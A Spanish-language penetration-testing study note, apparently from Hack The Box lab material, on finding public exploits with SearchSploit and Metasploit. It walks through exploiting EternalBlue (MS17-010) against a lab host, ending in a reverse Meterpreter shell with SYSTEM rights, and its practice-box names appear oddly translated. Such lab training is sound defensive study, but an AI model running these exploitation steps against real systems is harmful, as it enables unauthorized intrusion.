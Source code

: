 # Explotaciones públicas

**Resumen breve:**
Identificados los servicios (p. ej., SSH (Secure Shell), FTP (File Transfer Protocol), SMB (Server Message Block)) tras el escaneo con Nmap, el primer paso es comprobar **si existen exploits públicos** aplicables a sus versiones. Para ello, combinamos **búsquedas en Google**, **SearchSploit (Exploit-DB)**, bases de datos en línea y, cuando proceda, **Metasploit Framework (MSF)** para verificación y explotación.

---

## Puntos clave (destacados)

* **Prioriza la identificación precisa de versión** del servicio/APP antes de buscar un exploit.
* **Fuentes habituales:** Google, SearchSploit (Exploit-DB), bases de datos de Rapid7 (Metasploit) y otras colecciones públicas.
* **MSF (Metasploit Framework)**: permite buscar, verificar (`check`) y explotar, además de facilitar post-explotación con Meterpreter.
* **Ética/alcance:** solo explotes dentro del alcance autorizado, registra acciones y limpia artefactos.

---

## Encontrar exploits públicos

### Búsqueda en Google

Realiza búsquedas combinando **nombre del servicio + versión + “exploit”** o **CVE (Common Vulnerabilities and Exposures)** relevante.

```
https://www.google.com/
```

> Ejemplo (ilustrativo): resultados para “Exploit para SMB (Server Message Block) de Windows 7” suelen incluir referencias a **EternalBlue (MS17-010)**.

### SearchSploit (Exploit-DB)

Instalación:

```bash
sudo apt install exploitdb -y
```

Búsqueda por nombre/versión:

```bash
searchsploit openssh 7.2
```

Salida de ejemplo (recortada):

```
----------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                               |  Path
----------------------------------------------------------------------------------------------------------------------------- ---------------------------------
OpenSSH 2.3 < 7.7 - Username Enumeration                                                                                     | linux/remote/45233.py
OpenSSH 2.3 < 7.7 - Username Enumeration (PoC)                                                                               | linux/remote/45210.py
OpenSSH 7.2 - Denial of Service                                                                                              | linux/dos/40888.py
OpenSSH 7.2p1 - (Authenticated) xauth Command Injection                                                                      | multiple/remote/39569.py
OpenSSH 7.2p2 - Username Enumeration                                                                                         | linux/remote/40136.py
OpenSSH < 7.4 - 'UsePrivilegeSeparation Disabled' Forwarded Unix Domain Sockets Privilege Escalation                         | linux/local/40962.txt
OpenSSH < 7.4 - agent Protocol Arbitrary Library Loading                                                                     | linux/remote/40963.txt
OpenSSH < 7.7 - User Enumeration (2)                                                                                         | linux/remote/45939.py
OpenSSHd 7.2p2 - Username Enumeration                                                                                        | linux/remote/40113.txt
----------------------------------------------------------------------------------------------------------------------------- ---------------------------------
```

> Tip: también puedes usar **`searchsploit -w`** (enlaces web), **`-x`** (ver archivo), **`-m`** (copiar localmente) y **`--id`** (por EDB-ID (Exploit Database ID)).

### Otras bases de datos en línea

* Exploit Database (Exploit-DB) / Rapid7 (módulos MSF)
* Otras colecciones públicas / boletines del fabricante

---

## Introducción a Metasploit (MSF)

**Metasploit Framework (MSF)** ofrece:

* Scripts de **reconocimiento** para enumerar hosts/servicios.
* **Verificación** de vulnerabilidades con `check` (cuando el módulo lo soporte).
* **Meterpreter** para obtener sesión y ejecutar comandos en el host comprometido.
* Herramientas de **post-explotación** y **pivoting**.

### Flujo básico con MSF (ejemplo: MS17-010 / EternalBlue)

Iniciar consola:

```bash
msfconsole
```

Buscar el exploit:

```text
msf6 > search exploit eternalblue
```

Salida (resumen):

```
Matching Modules
================

   #  Name                                           Disclosure Date  Rank     Check  Description
   -  ----                                           ---------------  ----     -----  -----------
   ...
   4  exploit/windows/smb/ms17_010_psexec            2017-03-14       normal   Yes    MS17-010
```

Usar el módulo:

```text
msf6 > use exploit/windows/smb/ms17_010_psexec
```

Ver opciones del módulo:

```text
msf6 exploit(windows/smb/ms17_010_psexec) > show options
```

Opciones relevantes (extracto):

```
Name        Current Setting  Required  Description
----        ---------------  --------  -----------
RHOSTS                       yes       The target host(s)
RPORT       445              yes       The Target port (TCP (Transmission Control Protocol))
SMBUser                      no        The username to authenticate as
SMBPass                      no        The password for the specified username
SHARE       ADMIN$           yes       Share to connect to
```

Configurar objetivo (RHOSTS) y atacante (LHOST):

```text
msf6 exploit(windows/smb/ms17_010_psexec) > set RHOSTS 10.10.10.40
RHOSTS => 10.10.10.40
msf6 exploit(windows/smb/ms17_010_psexec) > set LHOST tun0
LHOST => tun0
```

Comprobar si es vulnerable:

```text
msf6 exploit(windows/smb/ms17_010_psexec) > check
```

Salida típica:

```
[*] 10.10.10.40:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.10.40:445 - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.10.40:445 - Scanned 1 of 1 hosts (100% complete)
[+] 10.10.10.40:445 - The target is vulnerable.
```

Ejecutar la explotación:

```text
msf6 exploit(windows/smb/ms17_010_psexec) > exploit
```

Resultado esperado (resumen):

```
[*] Started reverse TCP (Transmission Control Protocol) handler on 10.10.14.2:4444
[*] 10.10.10.40:445 - Target OS: Windows 7 Professional 7601 Service Pack 1
[+] 10.10.10.40:445 - Overwrite complete... SYSTEM session obtained!
[*] Meterpreter session 1 opened (10.10.14.2:4444 -> 10.10.10.40:49159)
```

Post-explotación con Meterpreter (y shell del sistema):

```text
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > shell
C:\\WINDOWS\\system32> whoami
NT AUTHORITY\SYSTEM
```

> Nota: No todos los módulos soportan `check`. Si falla, intenta verificación manual o módulos auxiliares.

---

## Cajas de práctica recomendadas (HTB)

* Abuela / Abuelo
* Jerry
* Azul
* Cojo
* Óptimo
* Legado
* Desarrollo

---

## Buenas prácticas

* Respeta el **alcance** y la **autorización**.
* Documenta cada paso (comandos, parámetros, evidencias).
* Aplica **defensa en profundidad**: si un exploit falla, prueba versiones alternativas, vectores manuales o combinación con credenciales.
* **Limpieza**: elimina artefactos y revierte cambios menores al finalizar.

---

## Referencias rápidas

* **CVE (Common Vulnerabilities and Exposures)**: estándar para identificar vulnerabilidades.
* **EDB-ID (Exploit Database ID)**: identificador de Exploit-DB para localizar PoC (Proof of Concept) específicos.

---

*Fin del documento.*
